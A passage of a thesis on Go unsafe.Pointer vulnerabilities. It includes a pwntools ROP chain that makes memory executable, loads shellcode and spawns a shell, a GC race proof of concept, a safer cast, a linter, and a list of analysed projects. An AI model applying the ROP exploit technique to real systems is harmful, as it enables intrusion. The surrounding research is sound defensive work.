add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret; gadget applied 5 times we can increment rax to 10. The gadget
will also move the eax value to some address in memory but we can just ignore that.

For rdx and rsi, we can go the easy way and just pop them from the stack, meaning we just put the pop gadget and the
value directly behind it. Very convenient. The gadgets look like this: pop rdx; adc al, 0xf6; ret;. They also
increment rax through the adc instruction, but if we set up rdx and rsi before setting up rax this is not a
problem because we initialize it to zero anyways.

For setting rdx, I also found pop rdx; xor ah, byte ptr [rsi - 9]; ret;. We could apply it twice to change back the
xor operation on rax, but this gadget reads from an address determined through rsi which will segfault in this
context.

The hardest is finding a gadget to set rdi. There is pop rdi; sete byte ptr [rsp + 0x10]; ret;, but this will set
a memory address near the stack pointer with the second instruction and thus mess up the ROP chain. The only other good
gadget option is pop rdi; dec dword ptr [rax + 0x21]; ret;,  but this decrements a memory address determined by rax.
In theory, we don't need to care about this address, but in my experiments the address would always be invalid and
thus crash the program too early.

I found a solution using the pop rax; or dh, dh; ret; gadget. It allows to set rax directly and therefore also makes
the above rax increment workaround unnecessary. I leave it in anyways. The important part is, we can now set rax to
some dummy address before executing the pop rdi gadget, and then the program does not crash. I use the address of the
fourth memory page from above, the heap, for this: 0x00567000.

Finally, we need the syscall instruction itself. Fortunately, this is straightforward as there is a syscall; ret;
gadget.

Now we can put together the gadget addresses and values. Before them, we put the same padding to offset to the stored
return address on the stack. I use the Python pwntools to have some more convenient functions in the exploit script.

python
eax0 = 0x000000000045b900  mov eax, 0; ret;
inc2rax = 0x0000000000419963  add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret;
poprdx = 0x000000000040830c  pop rdx; adc al, 0xf6; ret;
poprsi = 0x0000000000415574  pop rsi; adc al, 0xf6; ret;
syscall = 0x000000000045d329  syscall; ret;
poprax = 0x000000000040deac  pop rax; or dh, dh; ret;
poprdi = 0x000000000040eb97  pop rdi; dec dword ptr [rax + 0x21]; ret;

 addresses
buf = 0x00551000  use vmmap in GDB to find it
dummy = 0x00567000  heap

 padding
payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"

 mark memory page at buf rwx
payload += p64(poprax)  sete in poprdi mitigation
payload += p64(dummy)
payload += p64(poprdi)  1ST ARGUMENT
payload += p64(buf)  ADDRESS
payload += p64(poprsi)  2ND ARGUMENT
payload += p64(0x100)  SIZE
payload += p64(poprdx)  3RD ARGUMENT
payload += p64(0x7)  RWX
payload += p64(eax0)  SET RAX = 0
payload += p64(inc2rax) * 5  SET RAX = 10
payload += p64(syscall)  SYSCALL


Executing the program with this input will mark the memory page with RWX permissions. We can verify this in GDB using
the vmmap command:

gdb
gdb-peda vmmap
Start              End                Perm	Name
[...]
0x00551000         0x00567000         rwxp	main
[...]



**Step 2: Write shell code into the page**

To read in the shell code, we use the read syscall. Its documentation states the following:

c
ssizet read(int fd, void *buf, sizet count);

read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.


We can use the same technique to spawn the syscall as above. The syscall table shows that this time we need to call
the syscall with number 0. The file descriptor for standard input also has the number 0. Thus, we need to create the
following register situation:

 - rax: 0x0
 - rdi: 0x0
 - rsi: 0x00551000
 - rdx: 0x100

Conveniently, we already have the ROP gadgets needed and only need to rearrange:

python
payload += p64(poprax)  sete in poprdi mitigation
payload += p64(dummy)
payload += p64(poprdi)  1ST ARGUMENT
payload += p64(0x0)  STDIN
payload += p64(poprsi)  2ND ARGUMENT
payload += p64(buf)  ADDRESS
payload += p64(poprdx)  3RD ARGUMENT
payload += p64(0x100)  SIZE
payload += p64(eax0)  SET RAX = 0
payload += p64(syscall)  SYSCALL



Now, we have to provide some code that actually spawns a shell. This 27 bytes assembly program will spawn /bin/sh. It
is taken from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php).

python
 http://shell-storm.org/shellcode/files/shellcode-806.php


We send it right after the payload in the resulting python script.


**Step 3: Jump to the code**

Running the code we just read in is as simple as jumping to it. And jumping to it means we only have to provide its
address as the next return address:

python
payload += p64(buf)


If we run the final exploit, we get the following output:

shell
johannes@host-pc ~  ./exploitrop.py
[+] Starting local process './main': pid 75369
[*] Switching to interactive mode
 id
uid=1000(johannes) gid=1000(johannes) groups=1000(johannes),54(lock),1001(plugdev)



We have successfully spawned and control a shell. It runs in the same context as the program did, that is the user
context here. In a next step, we could try to run a local root exploit to escalate privileges.



%% -----------------------------------------------------------------------------

\section{Part 4}

 Garbage Collection

First, let's quickly go through garbage collection. Go offers memory management to the programmer. It automatically
allocates memory for object instances or values, such as integers, slices, or structs. It also keeps track of whether
those objects are still in use, and frees the memory when they aren't anymore.

The Go garbage collector runs in the background as its own Goroutine. In fact it's several Goroutines. The garbage
collector can be triggered manually by calling runtime.GC(), but usually it runs automatically when the heap doubles
its size. This size threshold can be adjusted with the GOGC environment variable. It is set to a percentage. The
default is 100, meaning the heap has to grow by 100% to trigger the garbage collection. Setting it to 200 for example
would mean that the collection is only started when the heap has grown to three times the previous size. On top of the
size condition there is also a timing condition: as long as the process is not suspended, the garbage collector will run
at least once every two minutes.

Go uses a [Mark-and-Sweep garbage collector](https://en.wikipedia.org/wiki/Tracinggarbagecollection). This type of
garbage collection consists of two phases:

 1. Mark: by recursively following all references, starting from variables in scope, reachable heap objects are marked
 2. Sweep: objects that are not marked are freed

These steps can be seen in the following figure:

![Mark and Sweep Garbage Collection](assets/gc.png)

The light blue boxes in the heap are objects that are reachable (through the references shown by the arrows). The white
objects are unreachable and will be freed in the sweep phase.


 Explicit casting using unsafe pointers

Now, we will look at the most common usage pattern for unsafe.Pointer in real-world open-source Go code: casting a
slice of some type or string into a slice of some other type. Let's say we wanted to convert a string to a []byte
slice in-place, that is reusing the string memory instead of copying it into a new slice allocation.

A frequent pattern to do this looks like this:

go
func unsafeStringToBytes(s *string) []byte 
	sh := (*reflect.StringHeader)(unsafe.Pointer(s))
	sliceHeader := reflect.SliceHeader
		Data: sh.Data,
		Len:  sh.Len,
		Cap:  sh.Len,
	
	return *(*[]byte)(unsafe.Pointer(sliceHeader))



The function gets a *string pointer (sometimes it will also be a direct string) and returns a []byte slice. Let's
look at what it does, line by line.

First, a reflect.StringHeader is created from the string. The StringHeader is Go's internal representation of a
string. It is very similar to the reflect.SliceHeader that we saw in the previous posts of this series:

go
type StringHeader struct 
    Data uintptr
    Len  int



The only difference is that there is no Cap field. In fact, strings in Go are by most means just a read-only []byte
slice. There are some differences, for example that range will iterate over runes instead of bytes, where a rune is
a Unicode code point. Because strings in Go are encoded in UTF-8, a Unicode code point might need multiple bytes (like
the German umlaut ä), and in that case range will read multiple bytes in one iteration. But in other ways, like the
length, strings behave like []byte slices. For example, len("ä") is 2, even if the string has only one character.
You can read more on this topic in the [Go strings documentation](https://blog.golang.org/strings).

When we have a variable of type string in Go, it points to a reflect.StringHeader structure, which in turn has a
pointer to the underlying byte-array holding the string data in its Data field. To get the StringHeader, we cast
it from an unsafe.Pointer which in turn is created by casting the string pointer. If the function would have received
a string instead of *string, we would have needed to do unsafe.Pointer(s) here, but the rest would stay the same.

Now, a *reflect.SliceHeader is created from scratch, by a composite literal. The Data and Len fields are just
copied from the StringHeader, and Cap is set to the same value as Len.

Lastly, we cast the *reflect.SliceHeader into a *[]byte, again using an intermediate unsafe.Pointer object. The
*[]byte is dereferenced and returned.

Thus the function is casting a string into a []byte object.


 First problem: implicit read-only slices

Remember that the Go documentation said that strings
are **read-only** []byte slices? Well, that could turn into a problem here! The []byte object returned by the
function is not read-only anymore, so the compiler will not complain if we modify its contents:

go
func main() 
    s := "Hello"
    b := unsafeStringToBytes(s)

    b[1] = "a" // this will crash

    fmt.Println(b)



The reason strings are read-only is because when we create a string like in the example above, the actual string literal
(the Hello data) is placed in a special section in the binary file produced by the compiler. When the program is run,
this section is probably mapped into a read-only memory page. Therefore, the Data field in the StringHeader and
SliceHeader structures will contain an address inside that read-only page.

If we now change the slice with b[1] = "a", we attempt to change a read-only memory page. The operating system will
prevent this and the result is a SIGSEGV segmentation fault, crashing the program.

The fact that this is a memory access violation that the compiler will not notice since we skipped its checks when we
used unsafe.Pointer is unfortunate, but a careful programmer could in theory make sure that all usages of the unsafe
cast function will never change the resulting slice. At all. I think this is a pretty dangerous assumption to make and
sooner or later there will be a programmer adding code that changes the slice. Therefore the casting pattern above
should be avoided at all costs.

But there is a second, much more subtle and dangerous problem in the code above.


 Garbage collector race introduced by slice and string header literals

Rule 6 of the [unsafe package documentation](https://golang.org/pkg/unsafe/) specifically states that "A program
should not declare or allocate variables of these struct types." Why is that?

When the garbage collector runs the mark phase, it follows pointer references to recursively mark the objects referenced
by the pointer. An unsafe.Pointer and the address stored in the Data field of a valid StringHeader or SliceHeader
will do the same. This means that sh.Data in the unsafe function above will in fact be treated as a reference value,
therefore the garbage collector will not free the underlying array.

However, plain uintptr and invalid slice or string header values are not treated as references.

Whenever the address of a value is only stored in variable of type uintptr (not additionally in any pointer types),
the garbage collector will not mark the referenced object and therefore free it. The freed memory might be reused with
new variables, or the memory page might simply be unmapped, or anything else might happen. Importantly, objects that are
only reachable by using an address that was stored in a uintptr variable must be treated as gone.

Unsafe usage rule 2 states that only a "conversion of an unsafe.Pointer to a uintptr (but not back to Pointer)"
is allowed. The part in parenthesis is important. If we create an unsafe.Pointer object from a previously stored
uintptr value, that unsafe.Pointer is a potentially dangling pointer, and dereferencing is not a safe operation!

There are some cases where unsafe.Pointer objects are created from pointer arithmetic on uintptr values, but those
calculations must happen in the same statement as creating the pointer. We must never store a reference to something
only in a uintptr value.

Now, let's revisit the code example above.

go
func unsafeStringToBytes(s *string) []byte 
	sh := (*reflect.StringHeader)(unsafe.Pointer(s))
	sliceHeader := reflect.SliceHeader
		Data: sh.Data,
		Len:  sh.Len,
		Cap:  sh.Len,
	

    // At this point, s is no longer used. There is a copy of the address of
    // its underlying array in sliceHeader.Data however, and since sliceHeader
    // was not created from an actual slice, the GC does not treat the address
    // as a reference. Therefore, if the GC runs here it will free s.

	return *(*[]byte)(unsafe.Pointer(sliceHeader))



At the point of the comment, the garbage collector can potentially run. Remember that it is triggered by heap usage
growth, and runs concurrently. If the function is used within a program that uses several Goroutines, the garbage
collector can essentially trigger at any point, including the one with the comment.

When it runs, it will free string s because it is no longer used. When the []byte slice is created in the next line,
its Data field will contain an invalid address. It might now point to an unmapped memory page, or simply to some
undefined position in the heap that might get reused later on.


 PoC: Exploiting this GC race condition

To see what can happen with this, let's look at the following proof-of-concept code. First, I add the following line
at the position of the comment above:

go
    time.Sleep(1 * time.Nanosecond)


This just makes the exploit a bit more reliable, but is not strictly needed. Next, I add a Goroutine that will just use
up more and more heap and constantly drop the references to that allocated memory. This will regularly trigger the
garbage collector.

go
func heapHeapHeap() 
	var a *[]byte
	for 
		tmp := make([]byte, 1000000, 1000000)
		a = tmp
         = a
	



Finally, the main Goroutine does the following:

go
reader := bufio.NewReader(os.Stdin)
count := 1
var firstChar byte

for 
    s,  := reader.ReadString('n')
    if len(s) == 0 
        continue
    
    firstChar = s[0]

    // HERE BE DRAGONS
    bytes := unsafeStringToBytes(s)

    ,  = reader.ReadString('n')

    if len(bytes) > 0  bytes[0] != firstChar 
        fmt.Printf("win! after d iterationsn", count)
        os.Exit(0)
    

    count++



It initializes a reader to read data from stdin. Then it repeatedly reads two lines from it in a loop. A counter is
used to count how many loops are needed to succeed. The firstChar variable is set to the first char from the first
line that is read.

Then, the first line (a string) is converted to a []byte slice using the unsafe casting function from above. At this
point, bytes and s should be the same string. Particularly, the bytes[0] should equal firstChar.

After the conversion, the second line is read. The result from ReadString is not even used, but the important part of
this is that if the garbage collector was run inside unsafeStringToBytes, then ReadString will reuse the heap space
that was previously freed.

Lastly, we check if bytes[0] is actually equal to firstChar, and if it is not we have successfully created a data
confusion by exploiting a garbage collector race condition. The number of loop executions needed is printed at the end.

Running this program can have two different results:

 1. The garbage collector finds an incorrect address in the heap and crashed the program with a hint to a possible
    incorrect usage of unsafe.Pointer
 2. It succeeds with the win! message

As long as the garbage collector does not trigger at the critical point in the unsafe cast function, the loop will just
run forever.

The first, crashing case happens when the garbage collector triggers inside the unsafe cast function, and again within
the second ReadString call in the PoC code. At that point, bytes will be a seemingly valid []byte slice, but its
Data field will point to previously freed memory.

The second, succeeding case will happen if the garbage collector triggers only inside the unsafe cast function. In that
case, the bytes slice will be a dangling slice pointing into the freed heap. Then, the second ReadString will reuse
that heap space, and provided that we sent a different string as second line, the first byte in the bytes slice will
now be a different character.

To achieve the alternating, but infinite input data I use the following Python script:

python
!/usr/bin/env python3

import errno
from signal import signal, SIGPIPE, SIGDFL
signal(SIGPIPE,SIGDFL)

try:
    while True:
        print("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
        print("BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")
except Exception:
    pass


It simply sends alternating A and B lines, and ignores IO exceptions caused by the pipe closing abruptly when the
Go program crashes (which would spam the terminal with some Python error messages).

The PoC is run like this:

shell
 ./exploit.py | ./main
win! after 51446 iterations


In my experiments, the program would crash with condition 1 about 10% of the time, and succeed in 20,000 to 100,000
iterations otherwise.


 Why is this a problem? A threat model

Now, all of this might seem rather staged and a succeeding memory confusion after 50,000 iterations on average might not
seem that often either. But in fact this is probably the most dangerous vulnerability of the ones shown in this blog
series.

First, the function that contains the actual vulnerability, unsafeStringToBytes, is taken from real-world Go code.
There are hundreds of times this code pattern is used in open-source Go libraries, and taking into account that they
are reused across multiple projects, there are actually tens of thousands of times this is used in the 500 most starred
open-source Go projects.

Unlike in part 3 of this series, we didn't gain remote code execution with this exploit PoC. We didn't even violate the
read-only nature of the slice returned from unsafeStringToBytes. And the exploit is not even particularly reliable, it
takes thousands of iterations until the confusion happens once and sometimes the program even just crashes. Lastly, we
added the nanosecond sleep, further increasing the likelihood of the confusion to happen.

But risk is a combination of likelihood and impact, and the impact of this problem is potentially disastrous.

First, let's create a potential real-world use case for analysis, set the likelihood in perspective, and then talk
about the impact. Imagine a server application written in Go. It handles incoming requests, does some internal
calculations and creates an output that is sent back to the client. Of course the application holds some private state,
imagine credentials to the database backend or private key data for example. Let's also say that there are 1,000
requests coming in each second. That number of requests is not low, but also not extremely high.

Let's ignore the case of crashing the program for now, since for this threat model assessment we can just assume that
if the server application crashes, some daemon supervisor will just restart it. We can think of the loop in the exploit
proof of concept as a similar thing to the requests that are coming in. Some code path will be executed for every
request, and this will be kind of like a loop iteration. Furthermore, if we get a memory confusion every 50,000 requests,
that will add up to a bit more than one confusion per minute. The nanosecond sleep will make the confusion more likely,
but still this might occur every few minutes.

Now, if such a memory confusion happens, there might be some read-only slice that contains unexpected data. If the
server application happens to use that slice for creating the response output that is sent to the user, even with some
intermediate conversions in between, the application might server unexpected memory contents back to the user. So with
this vulnerability in place, a user might suddenly, and randomly, get some scrambled data instead of an HTML response,
and if that user were to look into the data they might find the application secrets. This is a clear information leak
vulnerability, and the fact that it is caused by widely used code makes it very dangerous.


 The "correct" way of in-place slice casting using the unsafe package

There is a "correct" way to cast slices without copying. Whether this is really worth it has to be decided in the
special case, but we can at least propose a safer version of the vulnerable casting function above.

go
func saferStringToBytes(s *string) []byte 
    // create an actual slice
    bytes := make([]byte, 0, 0)

    // create the string and slice headers by casting. Obtain pointers to the
    // headers to be able to change the slice header properties in the next step
    stringHeader := (*reflect.StringHeader)(unsafe.Pointer(s))
    sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(bytes))

    // set the slice's length and capacity temporarily to zero (this is actually
    // unnecessary here because the slice is already initialized as zero, but if
    // you are reusing a different slice this is important
    sliceHeader.Len = 0
    sliceHeader.Cap = 0

    // change the slice header data address
    sliceHeader.Data = stringHeader.Data

    // set the slice capacity and length to the string length
    sliceHeader.Cap = stringHeader.Len
    sliceHeader.Len = stringHeader.Len

    // use the keep alive dummy function to make sure the original string s is not
    // freed up until this point
    runtime.KeepAlive(s)  // or runtime.KeepAlive(*s)

    // return the valid bytes slice (still read-only though)
    return bytes



This is a rather complicated process, but here are the important parts:

 1. The bytes slice that will be returned at the end is created as an actual, valid slice using the make function.
    It is not created by casting a plain header structure that was created as a composite literal. This ensures that
    Go will treat the address stored in sliceHeader.Data as if it were a "real" pointer
 2. Subsequently, the sliceHeader instance is created by casting as stated in the unsafe documentation
 3. sliceHeader length and capacity are explicitly set to zero while the Data address still points to the old
    underlying array. This is only necessary if the slice has not just been created. Decreasing the length and capacity
    is a safe operation, and it ensures that if the garbage collector runs just after the switch of Data it will not
    run past the slice end. This is explained in further detail below.
 4. The StringHeader fields are copied in this order: Data, then Cap, then Len
 5. Using runtime.KeepAlive, we tell the garbage collector that the original string s should not be freed up until
    this point. This ensures that the underlying data array will not be freed before it is referenced by the
    bytes slice.

When setting the Data field, the slice length and capacity should be zero as noted in point 3. This is because if the
target slice has a length greater than the source slice / string, and the garbage collector triggers right after
changing the Data field but before adjusting the Len and Cap fields, the slice would momentarily reach into
invalid memory. When the slice is of a type containing references, such as a struct, the garbage collector must go
through the slice to recursively mark the referenced objects, and if the length is set too high it will do so on invalid
memory. If the length is just zero, this won't happen. However, in order to ensure the referenced objects itself are not
freed it is imported to still have them referenced by the original slice / string. This is ensured by the call to
runtime.KeepAlive as stated in point 5.

Setting Len after Cap ensures that the slice never has a capacity lower than its length, which would be an illegal
state.

The takeaway of this should be that it is very very difficult to get this cast right and safe, and therefore this type
of in-place cast should better not be used at all.


 Introducing a static code analysis tool!

Unfortunately, the go vet -unsafeptr will not catch this common type of unsafe.Pointer misuse. I developed a Vet-style
analysis pass that is able to catch it:

% github jlauinger/go-safer no-readme %

This linter / static code analysis tool will catch the following situations:

 1. There is a reflect.StringHeader or reflect.SliceHeader composite literal. It might also be contained within
    another composite literal.
 2. There is an assignment to the fields of a composite object of type reflect.StringHeader or reflect.SliceHeader,
    and that object is not definitely derived by cast.

The first situation is fairly easy to detect and almost always unsafe. The linter tool will catch type aliases too. That
is, if you define

go
type MysteryType reflect.SliceHeader


and then do

go
source := make([]byte, 1, 1)
myHeader := MysteryTypeLen: 42, Cap: 42, Data: uintptr(unsafe.Pointer(source))


the linter will catch the MysteryType composite literal just as if it were a direct SliceHeader literal.

The second situation is more difficult. It analysis all assignments and uses the same mechanism to catch type aliases
for the object receiving the assignment as well. To determine whether it is a safe header derived from a cast, the pass
depends on the ctrlflow pass, receiving the control flow graph for the package. It finds the function containing the
assignment. Then, starting from the assignment the linter follows the graph backwards to the last assignment to the
object of SliceHeader or StringHeader type, and determines if that assignment is a cast from unsafe.Pointer, which
in turn itself is cast from a slice or string.

This means it will catch situations like these:

go
type MysteryStruct struct 
    MysteryHeader reflect.SliceHeader


func main() 
    myStruct := MysteryStruct
    myStruct.MysteryHeader.Len = 42



The linter will figure out that the SliceHeader instance contained within the MysteryStruct has not been set by a
cast and issue a warning.





%% appendix chapters
\appendix
%% -----------------------------------------------------------------------------

\chapter{Go Open-Source Projects Under Analysis}\label{app:projects}

To compile a suitable set of open-source Go projects that should be analyzed in this thesis, I searched on Github for
projects that use Go as their language, sorted by stars, and selected the top 500 most-starred projects. For reference,
here is an index of the projects I downloaded and analyzed.

%% created by Pandas in notebook table-formatting.ipynb

\begin{longtable}{llrrll}
    \caption{\centering Top 500 most-starred open-source Go projects on Github}
    \label{tbl:projects}\\
    \toprule
    {}  &                                               Name &  Stars &  Forks &    Last Pushed &    Revision \\
    \midrule
    \endfirsthead
    \multicolumn{6}{c}%
    {\tablename\ \thetable\ -- \textit{Continued from previous page}} \\
    \toprule
    {}  &                                               Name &  Stars &  Forks &    Last Pushed &    Revision \\
    \midrule
    \endhead
    \multicolumn{6}{c}{\textit{Continued on next page}} \\
    \endfoot
    \bottomrule
    \endlastfoot
    1   &                                          golang/go &  72988 &  10460 & 2020-05-28 &  6bf2eea62a \\
    2   &                              kubernetes/kubernetes &  66512 &  23806 & 2020-05-28 &  fb9e1946b0 \\
    3   &                                          moby/moby &  57189 &  16540 & 2020-05-28 &  763f9e799b \\
    4   &                                 avelino/awesome-go &  54733 &   7267 & 2020-05-28 &  3e27d63fe2 \\
    5   &                                      gohugoio/hugo &  44317 &   5049 & 2020-05-28 &  6a3e89743c \\
    6   &                                      gin-gonic/gin &  38459 &   4441 & 2020-05-27 &  5e40c1d49c \\
    7   &                                       fatedier/frp &  36184 &   6860 & 2020-05-25 &  2406ecdfea \\
    8   &          astaxie/build-web-application-with-golang &  34787 &   9516 & 2020-04-11 &  606abd586a \\
    9   &                                          gogs/gogs &  34522 &   4030 & 2020-05-28 &  7e99a6ce42 \\
    10  &                                   v2ray/v2ray-core &  31853 &   7270 & 2020-05-28 &  edb4fed387 \\
    11  &                                syncthing/syncthing &  31357 &   2686 & 2020-05-28 &  04ff890263 \\
    12  &                                       etcd-io/etcd &  31265 &   6523 & 2020-05-27 &  9b6c3e3378 \\
    13  &                              prometheus/prometheus &  31006 &   4725 & 2020-05-28 &  83619aa9ac \\
    14  &                                       junegunn/fzf &  29549 &   1207 & 2020-05-23 &  f81feb1e69 \\
    15  &                                 containous/traefik &  28977 &   3178 & 2020-05-28 &  7928e6d0cd \\
    16  &                                  caddyserver/caddy &  28739 &   2334 & 2020-05-28 &  9415feca7c \\
    17  &                               ethereum/go-ethereum &  26010 &   9492 & 2020-05-28 &  389da6aa48 \\
    18  &                                 FiloSottile/mkcert &  24272 &   1003 & 2020-05-20 &  a2b1208e9c \\
    19  &                                      astaxie/beego &  23997 &   4825 & 2020-05-22 &  8f3d1c5f42 \\
    20  &                                 iikira/BaiduPCS-Go &  23924 &   3974 & 2020-05-22 &  a829eef6b0 \\
    21  &                                       pingcap/tidb &  23680 &   3572 & 2020-05-28 &  777907bcee \\
    22  &                                        istio/istio &  22946 &   4312 & 2020-05-28 &  13855a94f9 \\
    23  &                                hashicorp/terraform &  22151 &   5729 & 2020-05-28 &  01f91316da \\
    24  &                                        minio/minio &  22065 &   2263 & 2020-05-28 &  231c5cf6de \\
    25  &                                      rclone/rclone &  21733 &   1733 & 2020-05-28 &  764b90a519 \\
    26  &                        unknwon/the-way-to-go\_ZH\_CN &  21596 &   5939 & 2020-05-09 &  eec6f83fcb \\
    27  &                                        drone/drone &  21111 &   2058 & 2020-05-28 &  aa84e311c0 \\
    28  &                                     wagoodman/dive &  20197 &    727 & 2020-05-16 &  103b05f3c0 \\
    29  &                                     go-gitea/gitea &  19872 &   2342 & 2020-05-28 &  9f55769804 \\
    30  &                                         github/hub &  19698 &   2039 & 2020-05-25 &  93537d4575 \\
    31  &                                   hashicorp/consul &  19249 &   3308 & 2020-05-28 &  6c444ba24c \\
    32  &                                influxdata/influxdb &  18970 &   2680 & 2020-05-28 &  41156ca646 \\
    33  &                              inconshreveable/ngrok &  18634 &   3287 & 2019-11-02 &  a8e7fa4863 \\
    34  &                                        jinzhu/gorm &  18545 &   2144 & 2020-05-26 &  7ea143b548 \\
    35  &                                kubernetes/minikube &  18317 &   2982 & 2020-05-28 &  ea20609a3a \\
    36  &                       mattermost/mattermost-server &  18277 &   4157 & 2020-05-28 &  e83cc7357c \\
    37  &                              cockroachdb/cockroach &  18260 &   2177 & 2020-05-28 &  e148388d9e \\
    38  &                                       kataras/iris &  18217 &   2028 & 2020-05-28 &  b6ac39480b \\
    39  &                                          nsqio/nsq &  17777 &   2350 & 2020-05-12 &  8db8c50e5e \\
    40  &                                      openfaas/faas &  17681 &   1463 & 2020-05-26 &  6841fba36b \\
    41  &                                      labstack/echo &  17310 &   1561 & 2020-05-22 &  43e32ba83d \\
    42  &                                          helm/helm &  17197 &   5126 & 2020-05-28 &  15d9a6190f \\
    43  &                                        spf13/cobra &  17160 &   1472 & 2020-05-28 &  94a87a7b83 \\
    44  &                                         go-kit/kit &  17032 &   1783 & 2020-05-28 &  81a2d1f550 \\
    45  &                              yeasy/docker\_practice &  16880 &   4642 & 2020-05-20 &  ddec6641b9 \\
    46  &                              jesseduffield/lazygit &  16418 &    581 & 2020-05-28 &  cf5cefb2d6 \\
    47  &                                    hashicorp/vault &  15810 &   2447 & 2020-05-28 &  2b8cac7260 \\
    48  &                           jesseduffield/lazydocker &  15109 &    565 & 2020-05-28 &  10617da560 \\
    49  &                                    sirupsen/logrus &  14940 &   1674 & 2020-05-28 &  6699a89a23 \\
    50  &                               joewalnes/websocketd &  14653 &    829 & 2020-05-08 &  2190c8ab4c \\
    51  &                                     tsenart/vegeta &  14648 &    938 & 2020-05-22 &  d9b795aec8 \\
    52  &                                    rancher/rancher &  14344 &   1758 & 2020-05-28 &  56a464049e \\
    53  &                                     go-delve/delve &  13968 &   1363 & 2020-05-28 &  4a9b3419d1 \\
    54  &                                        yudai/gotty &  13964 &   1032 & 2020-04-30 &  a080c85cbc \\
    55  &                                         urfave/cli &  13795 &   1150 & 2020-05-21 &  477292c8d4 \\
    56  &                                     zyedidia/micro &  13488 &    657 & 2020-05-28 &  8956448fca \\
    57  &                                 cayleygraph/cayley &  13411 &   1208 & 2020-05-22 &  ab2941b35e \\
    58  &                                        helm/charts &  13315 &  14774 & 2020-05-28 &  f30b0d5c24 \\
    59  &                                   dgraph-io/dgraph &  13262 &    946 & 2020-05-28 &  4f0645ec7d \\
    60  &                                         golang/dep &  13213 &   1104 & 2020-04-16 &  87f309484f \\
    61  &                                     micro/go-micro &  13093 &   1368 & 2020-05-28 &  3f354f3c30 \\
    62  &                                        rancher/k3s &  12868 &    973 & 2020-05-28 &  b237637338 \\
    63  &                                     buger/goreplay &  12826 &   1244 & 2020-05-28 &  5c5ef3ac15 \\
    64  &                                  tmrts/go-patterns &  12758 &   1193 & 2020-03-25 &  f978e42036 \\
    65  &              chai2010/advanced-go-programming-book &  12696 &   2105 & 2020-05-26 &  00bc3e0868 \\
    66  &                            coreybutler/nvm-windows &  12692 &   1252 & 2020-04-14 &  4ea3bc0c13 \\
    67  &                                   valyala/fasthttp &  12530 &   1041 & 2020-05-27 &  2f92c68a07 \\
    68  &                                        spf13/viper &  12351 &   1130 & 2020-05-27 &  13df721090 \\
    69  &                                       ehang-io/nps &  12243 &   2112 & 2020-05-20 &  f391813a28 \\
    70  &                                  gorilla/websocket &  11989 &   2047 & 2020-04-14 &  b65e62901f \\
    71  &                                        gorilla/mux &  11982 &   1208 & 2020-05-17 &  948bec34b5 \\
    72  &                                    goharbor/harbor &  11944 &   3194 & 2020-05-28 &  7c2bfb1378 \\
    73  &                                       xtaci/kcptun &  11849 &   2308 & 2020-05-20 &  912a97993e \\
    74  &                                        revel/revel &  11708 &   1359 & 2020-05-25 &  a3d7a7c23c \\
    75  &                                   txthinking/brook &  11463 &   2160 & 2020-05-07 &  e8f20902a9 \\
    76  &                                        wtfutil/wtf &  11461 &    632 & 2020-05-27 &  204e286caa \\
    77  &                                    kubernetes/kops &  11459 &   3583 & 2020-05-28 &  4b4dbd4285 \\
    78  &                                       grpc/grpc-go &  11361 &   2400 & 2020-05-28 &  e0ec2b8320 \\
    79  &                           julienschmidt/httprouter &  11269 &   1078 & 2020-05-08 &  8c9f31f047 \\
    80  &                                    CodisLabs/codis &  11106 &   2497 & 2020-04-07 &  de1ad026e3 \\
    81  &                           quii/learn-go-with-tests &  11075 &   1331 & 2020-05-23 &  3e2a9c5a98 \\
    82  &                               jaegertracing/jaeger &  10981 &   1196 & 2020-05-28 &  06c8f7cc82 \\
    83  &                                      gocolly/colly &  10956 &    925 & 2020-05-26 &  556442d455 \\
    84  &                                 go-martini/martini &  10953 &   1104 & 2020-02-22 &  22fa46961a \\
    85  &                                 fogleman/primitive &  10825 &    529 & 2020-05-09 &  0373c21645 \\
    86  &                                    google/cadvisor &  10743 &   1578 & 2020-05-27 &  8d4d5ea98d \\
    87  &                                        boltdb/bolt &  10715 &   1253 & 2018-03-02 &  fd01fc79c5 \\
    88  &                                   stretchr/testify &  10531 &    901 & 2020-05-27 &  004e3cb722 \\
    89  &                                   peterq/pan-light &  10492 &   2342 & 2019-11-08 &  867eee7a92 \\
    90  &                                     iawia002/annie &  10444 &   1141 & 2020-05-21 &  dcf8152855 \\
    91  &                                 hyperledger/fabric &  10248 &   5897 & 2020-05-28 &  41f8b0a033 \\
    92  &                                      restic/restic &  10201 &    712 & 2020-05-28 &  cba6ad8d8e \\
    93  &                                   hashicorp/packer &  10182 &   2807 & 2020-05-28 &  193395d734 \\
    94  &                                    vitessio/vitess &  10080 &   1305 & 2020-05-28 &  734ed78e52 \\
    95  &                                      google/grumpy &  10060 &    650 & 2020-03-27 &  3ec8795918 \\
    96  &                                      google/gvisor &   9962 &    714 & 2020-05-28 &  a8c1b32660 \\
    97  &                                        bcicen/ctop &   9945 &    381 & 2020-01-03 &  4741b276e4 \\
    98  &                                       gizak/termui &   9864 &    613 & 2020-05-01 &  4cca61d83f \\
    99  &                                   go-kratos/kratos &   9844 &   2106 & 2020-05-26 &  521d240568 \\
    100 &                                        uber-go/zap &   9826 &    736 & 2020-05-26 &  e931a6bb13 \\
    101 &                             hoanhan101/ultimate-go &   9753 &    736 & 2020-05-15 &  e91ebe79b9 \\
    102 &                                       ipfs/go-ipfs &   9721 &   1784 & 2020-05-28 &  285d743173 \\
    103 &                                       fyne-io/fyne &   9719 &    445 & 2020-05-28 &  e7f1331819 \\
    104 &                      GoogleContainerTools/skaffold &   9712 &    945 & 2020-05-28 &  dc44de4d42 \\
    105 &                                chrislusf/seaweedfs &   9639 &   1277 & 2020-05-28 &  6286a454c7 \\
    106 &                            dutchcoders/transfer.sh &   9576 &    984 & 2020-05-17 &  92055f1b3c \\
    107 &                                       grafana/loki &   9537 &    922 & 2020-05-28 &  10a1f28a85 \\
    108 &                                go-sql-driver/mysql &   9522 &   1692 & 2020-05-28 &  8c3a2d9049 \\
    109 &                                  gopherjs/gopherjs &   9393 &    445 & 2020-05-28 &  fce0ec30dd \\
